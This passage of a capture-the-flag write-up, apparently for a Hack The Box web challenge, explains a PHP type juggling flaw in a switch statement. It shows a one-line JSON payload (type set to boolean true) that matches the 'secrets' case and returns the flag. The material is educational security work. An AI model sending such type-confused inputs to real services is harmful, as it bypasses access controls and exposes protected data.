 ![](/uploads/{{ page.permalink }}/ss23.png)

I kept that potential SSRF in mind and I started searching for a type juggling vulnerability in the code. I started with the variables I could control, which is the `type` field.

One part of the code that drew my attention was this switch case.

```php
switch ($jsondata['type'])
{
    case 'secrets':
        return $router->jsonify([
            'facts' => $this->facts->get_facts('secrets')
        ]);

    case 'spooky':
        return $router->jsonify([
            'facts' => $this->facts->get_facts('spooky')
        ]);
    
    case 'not_spooky':
        return $router->jsonify([
            'facts' => $this->facts->get_facts('not_spooky')
        ]);
    
    default:
        return $router->jsonify([
            'message' => 'Invalid type!'
        ]);
}
```

I attempted to pass `true` boolean in the `type` field.

```json
{
  "type": true
}
```

That was enough to get the flag and learn that sw1tch_stat3m3nts_4r3_vuln3r4bl3!!!

```json
{
  "facts": [
    {
      "id": 19,
      "fact": "HTB{sw1tch_stat3m3nts_4r3_vuln3r4bl3!!!}",
      "fact_type": "secrets"
    }
  ]
}
```

Explanation: Switch uses loose comparison and the first expression it evaluates is `true == "secrets"`, resulting in `true`. 
